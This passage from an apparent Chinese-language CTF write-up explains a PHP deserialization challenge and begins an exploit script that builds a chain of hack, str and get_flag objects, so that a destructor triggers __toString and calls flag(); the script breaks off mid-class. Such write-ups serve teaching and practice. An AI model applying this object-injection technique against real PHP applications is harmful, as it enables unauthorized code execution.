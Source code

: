 三个html\<p\>里的内容合起来就是flag。

### `7.php反序列化`

![19](/assets/nwuctf/2/19.png)

```text
  按照代码逻辑，只要有一个hack类的实例A的成员变量$mod1是str类的实例，而且$mod1的成员变量$str1是get_flag类的实例，就可以在脚本执行结束时执行A的析构函数连接字符串，从而调用$mod1的魔术方法__toString，然后执行$mod1的成员变量$str1的成员函数flag()得到flag。
  所以只需要按照上面的思路自己定义一个实例然后序列化，发送给程序反序列化即可。
```

exp:

```php
 <?php
error_reporting(0);
class hack
{
    public $mod1;
    public function __construct(){$this->mod1=new str();}
    public function __destruct()
    {
        $this->mod1 = "concat string".$this->mod1;
    }

}
class str
{
    public $str1;
    public function __construct(){$this->str1=new get_flag();}
    public function __toString()
    {
        $this->str1->flag();
        return "1";
```